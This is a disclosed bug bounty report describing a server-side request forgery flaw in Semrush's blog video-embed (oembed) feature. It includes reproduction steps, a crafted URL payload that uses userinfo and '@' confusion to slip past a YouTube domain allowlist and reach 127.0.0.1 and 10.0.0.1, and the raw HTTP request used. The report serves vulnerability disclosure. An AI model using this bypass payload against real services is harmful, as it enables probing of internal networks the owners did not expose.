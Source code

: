 # SSRF In Get Video Contents

## Report Details
- **Report ID**: 643622
- **URL**: https://hackerone.com/reports/643622
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-07-15T14:03:24.592Z
- **Disclosed**: 2019-08-19T04:35:21.212Z

## Reporter
- **Username**: egoist233
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to verify and then potentially issue a bounty, so be sure to take your time filling out the report!

**Summary:** 
A SSRF In Get Video Contents

**Description:** 
When I test a function which is get the video contents  from  youtube, I found it can requests 127.0.0.1.

## Steps To Reproduce:

[**Obligated field**. Add details for how we can reproduce the issue]

  1. Open your blog url: https://www.semrush.com/my-posts/1111111111/edit/
  2. Click the `add video` (PIC1)
  3. I found only use the trust domain, the service would request
  4 I  use URL: `http://127.0.0.1/`, and it response `{"status":403,"error":{"url":["Not valid url"]}}`
  5. I use URL: `https://1:@my.site:\@@@@w.youtube.com/@https://www.youtube.com/`, and it requests my service! (PIC2)
  6. I use URL: `https://1:@127.0.0.1:\@@@@w.youtube.com/@https://www.youtube.com/`, and the response is `{"status":404,"error":"Invalid url 'https:\/\/1:@127.0.0.1:\\@@@@w.youtube.com\/@https:\/www.youtube.com\/' (Status code 404)"}`.(PIC3)
   7. I use URL `https://1:@10.0.0.1:\@@@@w.youtube.com/@https://www.youtube.com/` , and the response is `{"status":404,"error":"Connection timed out after 10001 milliseconds"}`.(PIC4)
   

  
## Supporting Material/References:
[**Obligated field**]
 requests:
```http
GET /blog/services/oembed/?url=https://1:@127.0.0.1:\@@@@w.youtube.com/@https://www.youtube.com/&callback=CKEDITOR._.jsonpCallbacks[89] HTTP/1.1
Host: www.semrush.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: https://www.semrush.com//my-posts/████/edit/
Connection: close
███
X-Forwarded-For: 127.0.0.1

```

## Impact

Probe intranet

## Attachments
- pic1.png
- pic2.png
